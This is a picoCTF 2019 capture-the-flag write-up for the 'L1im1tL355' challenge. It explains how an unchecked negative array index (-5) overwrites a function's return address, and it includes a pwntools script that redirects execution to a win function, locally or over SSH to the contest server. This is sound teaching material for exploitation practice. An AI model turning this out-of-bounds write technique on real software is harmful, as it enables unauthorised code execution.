## Problem

Just pwn this program and get a flag. Its also found in /problems/l1im1tl355_1_688adedb3c25bf76cbb2c2a0fe7e9ac3 on the shell server. Source.


[Binary](/blog/picoctf-2019-writeup/binary-exploitation/L1im1tL355/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/L1im1tL355/vuln.c)

## Solution

Because there's no bound check in c arrays, we can enter negative numbers for the index. This allows us to overwrite the return address of the `replaceIntegerInArrayAtIndex` function since the stack looks something like this:

* lower stack address
* replaceIntegerInArrayAtIndex: stack data
* replaceIntegerInArrayAtIndex: saved ebp
* replaceIntegerInArrayAtIndex: return address (-5)
* main: other stack data
* main: array (+0)
* higher stack address

Exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'


if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  if DEBUG:
    attach_gdb()

  REMOTE = False
else:
  s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
  sh = s.process('vuln', cwd='/problems/l1im1tl355_1_688adedb3c25bf76cbb2c2a0fe7e9ac3')
  REMOTE = True

win_addr = 0x080485c6

sh.sendlineafter('array\n', str(win_addr))
sh.sendlineafter('value\n', str(-5))

```